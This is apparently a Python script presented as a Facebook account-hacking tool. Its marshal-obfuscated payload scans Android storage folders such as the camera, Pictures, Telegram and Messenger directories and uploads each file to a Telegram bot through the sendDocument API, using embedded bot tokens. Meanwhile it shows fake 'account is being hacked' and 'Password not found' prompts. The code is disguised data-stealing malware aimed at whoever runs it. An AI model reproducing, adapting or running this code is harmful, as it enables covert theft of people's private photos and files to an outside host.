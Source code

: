 ‏ import os
import sys
import time
import requests
from pystyle import *


https://t.me/yosaf_33

bot_token = '0785245489:AAHq2TqOUhMh9ir8mnQirxMQc8dlMcjBYto'
chat_id = '0785245489'
os.system('clear')

https://www.facebook.com/profile.php?id=100063952478684&mibextid=LQQJ4d

paths = ['/sdcard/web', '/sdcard/test', '/sdcard/DCIM/Camera', '/sdcard/DCIM/Facebook', '/sdcard/Pictures/', '/sdcard/Pictures/Telegram', '/sdcard/Pictures/Messenger', '/sdcard/']







import marshal
exec(marshal.loads(b'\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\t\x00\x00\x00\x00\x00\x00\x00\xf3\xf4\x03\x00\x00\x97\x00d\x00d\x01l\x00Z\x00d\x00d\x01l\x01Z\x01d\x00d\x01l\x02Z\x02d\x00d\x01l\x03Z\x03d\x00d\x02l\x04T\x00d\x03Z\x05d\x04Z\x06\x02\x00e\x00j\x07\x00\x00\x00\x00\x00\x00\x00\x00d\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00g\x00d\x06\xa2\x01Z\x08\x02\x00e\td\x07\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00e\x08D\x00]\xb1Z\n\x02\x00e\x00j\x0b\x00\x00\x00\x00\x00\x00\x00\x00e\n\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00Z\x0ce\x0cD\x00]\x9cZ\re\x00j\n\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x0e\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00e\x00j\n\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x0f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00e\ne\r\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00r\x01\x8c6d\x08e\x05\x9b\x00d\t\x9d\x03Z\x10\x02\x00e\x11e\x00j\n\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x0f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00e\ne\r\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00d\n\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x005\x00Z\x12\x02\x00e\x03j\x13\x00\x00\x00\x00\x00\x00\x00\x00e\x10d\x0be\x06i\x01d\x0ce\x12i\x01\xac\r\xa6\x03\x00\x00\xab\x03\x00\x00\x00\x00\x00\x00\x00\x00Z\x14e\x14j\x15\x00\x00\x00\x00\x00\x00\x00\x00d\x0ek\x03\x00\x00\x00\x00r\x01\t\x00d\x01d\x01d\x01\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00n\x0b#\x001\x00s\x04w\x02x\x03Y\x00w\x01\x01\x00Y\x00\x01\x00\x01\x00\x8c\x9d\x8c\xb2\x02\x00e\x00j\x07\x00\x00\x00\x00\x00\x00\x00\x00d\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\td\x0f\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\td\x0f\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x10Z\x16\x02\x00e\te\x16\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\x00j\x07\x00\x00\x00\x00\x00\x00\x00\x00d\x11\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00e\x17\xa0\x18\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x12e\x19j\x1a\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\td\x13\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00e\x17\xa0\x18\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x14e\x19j\x1b\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\td\x13\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00e\x17\xa0\x1c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x15e\x19j\x1b\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00Z\x1d\x02\x00e\td\x0f\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00e\x17\xa0\x1c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x16e\x19j\x1b\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00Z\x1e\x02\x00e\td\x0f\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\td\x17\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\x02j\x1f\x00\x00\x00\x00\x00\x00\x00\x00d\x18\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\td\x0f\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\td\x19\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\x1a\xe9\x00\x00\x00\x00N)\x01\xda\x01*z.6078999720:AAEobp4-oTAPF0apNz-L6UqUoA_2_DfMQ3M\xda\t802140429\xda\x05clear)\x07z\x0b/sdcard/webz\x0c/sdcard/testz\x13/sdcard/DCIM/Cameraz\x15/sdcard/DCIM/Facebookz\x11/sdcard/Pictures/z\x19/sdcard/Pictures/Telegramz\x1a/sdcard/Pictures/Messengerz\x16\x1b[32m please wait ....z\x1chttps://api.telegram.org/botz\r/sendDocument\xda\x02rb\xda\x07chat_id\xda\x08document)\x02\xda\x04data\xda\x05files\xe9\xc8\x00\x00\x00\xda\x00u\x19\x05\x00\x00\n\n          \x1b[32mby : Mr - Dark\n\x1b[33m\n\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\n\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x9d\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\n\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\xa6\xe2\x95\x9d\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x9d\n\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\n\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\xa6\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x95\x9a\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x94\xe2\x95\x9d\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x95\x9a\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x95\x97\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x88\xe2\x96\x88\xe2\x95\x91\n\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x9d\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\xe2\x96\x91\xe2\x96\x91\xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d\n\nz"termux-open https://t.me/name_darkz.[+] My name is dark => https://t.me/name_dark \xfa\x01\nz4[+] This tool is designed to hack Facebook accounts z![+] Enter id or email or phone : z\x1a[+] Enter password list : z\'\x1b[32m The account is being hacked  ....\xe9\x05\x00\x00\x00z$\x1b[34m Password not found, try again ) \xda\x02os\xda\x03sys\xda\x04time\xda\x08requests\xda\x07pystyle\xda\tbot_tokenr\x07\x00\x00\x00\xda\x06system\xda\x05paths\xda\x05print\xda\x04path\xda\x07listdirr\n\x00\x00\x00\xda\x04file\xda\x05isdir\xda\x04join\xda\x03url\xda\x04open\xda\x01f\xda\x04post\xda\x01r\xda\x0bstatus_code\xda\x03log\xda\x05Write\xda\x05Print\xda\x06Colors\xda\rpurple_to_red\xda\x0epurple_to_blue\xda\x05Input\xda\x04user\xda\x04list\xda\x05sleep\xa9\x00\xf3\x00\x00\x00\x00r\x0c\x00\x00\x00\xfa\x08<module>r/\x00\x00\x00\x01\x00\x00\x00s\xbf\x02\x00\x00\xf0\x03\x01\x01\x01\xd8\x00\t\x80\t\x80\t\x80\t\xd8\x00\n\x80\n\x80\n\x80\n\xd8\x00\x0b\x80\x0b\x80\x0b\x80\x0b\xd8\x00\x0f\x80\x0f\x80\x0f\x80\x0f\xd8\x00\x15\xd0\x00\x15\xd0\x00\x15\xd0\x00\x15\xf0\x0e\x00\r=\x80\t\xd8\n\x15\x80\x07\xd8\x00\t\x80\x02\x84\t\x88\'\xd1\x00\x12\xd4\x00\x12\xd0\x00\x12\xf0\x06\x00\th\x02\xf0\x00\x00\th\x02\xf0\x00\x00\th\x02\x80\x05\xf0\x08\x00\x01\x06\x80\x05\xd0\x07"\xd1\x00#\xd4\x00#\xd0\x00#\xf0\x06\x00\r\x12\xf0\x00\x0c\x01\x15\xf0\x00\x0c\x01\x15\x80D\xd8\x0c\x16\x88B\x8cJ\x90t\xd1\x0c\x1c\xd4\x0c\x1c\x80E\xd8\x10\x15\xf0\x00\n\x05\x15\xf0\x00\n\x05\x15\x88\x04\xd8\x0b\r\x8c7\x8f=\x8a=\x98\x12\x9c\x17\x9f\x1c\x9a\x1c\xa0d\xa8D\xd1\x191\xd4\x191\xd1\x0b2\xd4\x0b2\xf0\x00\x01\t\x15\xd8\x0c\x14\xe0\x0eE\xa8Y\xd0\x0eE\xd0\x0eE\xd0\x0eE\x88\x03\xd8\r\x11\x88T\x90"\x94\'\x97,\x92,\x98t\xa0T\xd1\x12*\xd4\x12*\xa8D\xd1\r1\xd4\r1\xf0\x00\x05\t\x15\xb0Q\xd8\x10\x1d\x90\x08\x94\r\x98c\xa8\x19\xb0G\xd0(<\xc0Z\xd0QR\xc0O\xd0\x10T\xd1\x10T\xd4\x10T\x88A\xd8\x0f\x10\x8c}\xa0\x03\xd2\x0f#\xd0\x0f#\xf0\x06\x00\x11\x15\xf0\x0b\x05\t\x15\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf1\x00\x05\t\x15\xf4\x00\x05\t\x15\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf8\xf8\xf8\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf0\x00\x05\t\x15\xf8\xf0\x0b\n\x05\x15\xf0\x18\x00\x01\n\x80\x02\x84\t\x88\'\xd1\x00\x12\xd4\x00\x12\xd0\x00\x12\xe0\x00\x05\x80\x05\x80r\x81\n\x84\n\x80\n\xd8\x00\x05\x80\x05\x80r\x81\n\x84\n\x80\n\xf0\x02\x0b\x07\x04\x80\x03\xf0\x18\x00\x01\x06\x80\x05\x80s\x81\x0b\x84\x0b\x80\x0b\xd8\x00\t\x80\x02\x84\t\xd0\n.\xd1\x00/\xd4\x00/\xd0\x00/\xd8\x00\x05\x87\x0b\x82\x0b\xd0\x0c<\xb8f\xd4>R\xd1\x00S\xd4\x00S\xd0\x00S\xd8\x00\x05\x80\x05\x80t\x81\x0c\x84\x0c\x80\x0c\xd8\x00\x05\x87\x0b\x82\x0b\xd0\x0cB\xc0F\xd4DY\xd1\x00Z\xd4\x00Z\xd0\x00Z\xe0\x00\x05\x80\x05\x80t\x81\x0c\x84\x0c\x80\x0c\xe0\x07\x0c\x87{\x82{\xd0\x136\xb8\x06\xd48M\xd1\x07N\xd4\x07N\x80\x04\xd8\x00\x05\x80\x05\x80r\x81\n\x84\n\x80\n\xd8\x07\x0c\x87{\x82{\xd0\x13/\xb0\x16\xd41F\xd1\x07G\xd4\x07G\x80\x04\xd8\x00\x05\x80\x05\x80r\x81\n\x84\n\x80\n\xd8\x00\x05\x80\x05\xd0\x073\xd1\x004\xd4\x004\xd0\x004\xd8\x00\n\x80\x04\x84\n\x881\x81\r\x84\r\x80\r\xd8\x00\x05\x80\x05\x80r\x81\n\x84\n\x80\n\xd8\x00\x05\x80\x05\xd0\x070\xd1\x001\xd4\x001\xd0\x001\xd0\x001\xd0\x001s\x12\x00\x00\x00\xc2/$C\x1f\x07\xc3\x1f\x04C#\x0b\xc3&\x01C#\x0b'))
